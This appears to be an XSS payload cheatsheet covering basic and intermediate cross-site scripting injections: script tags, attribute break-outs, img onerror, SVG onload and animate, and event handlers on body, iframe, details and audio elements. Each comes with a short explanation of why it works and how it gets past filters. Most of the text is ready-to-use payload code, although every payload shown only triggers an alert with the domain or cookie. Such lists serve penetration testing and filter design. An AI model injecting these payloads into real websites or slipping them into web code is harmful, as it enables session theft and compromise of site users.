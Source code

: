 # XSS Payload Cheatsheet: Basic to Advanced

## Basic Payloads

### Alert Box Payloads
```javascript
<script>alert(document.domain)</script>
<script>alert(document.cookie)</script>
<script>alert(1)</script>
```
*Why it works:* Direct script injection executes JavaScript. Use these for initial testing or when no filters are present.

### HTML Tag Attribute Injection
```javascript
" autofocus onfocus="alert(document.domain)
" onmouseover="alert(document.domain)
"><script>alert(document.domain)</script>
```
*Why it works:* Breaks out of an attribute context (like `value="user-input"`) and injects new attributes or tags.

### Image Tag Payloads
```javascript
<img src=x onerror=alert(document.domain)>
<img src=invalid onerror=alert(document.cookie)>
<img src="javascript:alert(document.domain)">
```
*Why it works:* The `onerror` event triggers when the image fails to load. Useful when `<script>` tags are blocked.

### SVG Tag Payloads
```javascript
<svg onload=alert(document.domain)>
<svg><script>alert(document.domain)</script></svg>
<svg><animate onbegin=alert(document.domain) attributeName=x dur=1s>
```
*Why it works:* SVG tags can execute JavaScript and may bypass filters that only block standard HTML tags.

## Intermediate Payloads

### Event Handler Variations
```javascript
<body onload=alert(document.domain)>
<input autofocus onfocus=alert(document.domain)>
<iframe onload=alert(document.domain)>
<details open ontoggle=alert(document.domain)>
<audio src=x onerror=alert(document.domain)>
```
*Why it works:* Different HTML elements have various event handlers. Try these when specific tags or events are blocked.
